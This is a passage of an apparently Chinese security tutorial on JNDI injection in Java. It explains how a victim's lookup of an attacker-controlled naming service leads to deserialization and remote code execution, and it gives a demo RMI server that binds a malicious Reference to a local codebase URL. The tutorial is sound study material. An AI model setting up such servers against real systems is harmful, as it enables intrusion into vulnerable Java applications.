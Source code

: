 cmd检查一下mvn是否安装成功：

```
mvn -v
```

[![](https://p0.ssl.qhimg.com/t01a517ab50fcff8790.png)](https://p0.ssl.qhimg.com/t01a517ab50fcff8790.png)

使用java8编译。

```
mvn clean package -DskipTests
```

**<a class="reference-link" name="2.%E5%8E%9F%E7%90%86"></a>2.原理**

个人感觉JNDI注入这一方法和RMI攻击具有比较高的相似性，都是让victim向攻击者控制的远程服务器发起请求，远程服务器返回内容，流程上甚至可以用同一幅图，

[![](https://p2.ssl.qhimg.com/t0179dbf0e421e52fc6.png)](https://p2.ssl.qhimg.com/t0179dbf0e421e52fc6.png)

1.攻击者向其控制的Naming/Directory服务上绑定一个恶意对象。

2.攻击者向有漏洞的JDNI lookup方法发送恶意URL（ip为恶意N/D，且指向绑定的恶意对象）。

3.Victim执行lookup。

4.Victim向攻击者控制的N/D服务器发起查询，N/D返回恶意对象。

5.Victim反序列化恶意对象，触发RCE。

JNDI（全称Java Naming and Directory Interface）是用于目录服务的Java API，它允许Java客户端通过名称发现和查找数据和资源(以Java对象的形式)。与与主机系统接口的所有Java api一样，JNDI独立于底层实现。此外，它指定了一个服务提供者接口(SPI)，该接口允许将目录服务实现插入到框架中。通过JNDI查询的信息可能由服务器、文件或数据库提供，选择取决于所使用的实现。

个人理解，JNDI注入简单来说，就是在victim在执行lookup(URI)时，如果URI是恶意的，那么victim就会被攻击，所以JDNI最难的就是如何让victim来lookup我们构造的URI。

下面我们以一个常见的demo来简单演示JNDI攻击过程，

[![](https://p0.ssl.qhimg.com/t014589fc6c6c406d87.png)](https://p0.ssl.qhimg.com/t014589fc6c6c406d87.png)

先是JNDIServer，

```
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;

public class JNDIServer `{`
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException `{`
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference Exploit = new Reference("Exploit", "Exploit", "http://127.0.0.1:7077/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(Exploit);
        registry.bind("Exploit", refObjWrapper);

    `}`
`}`
```
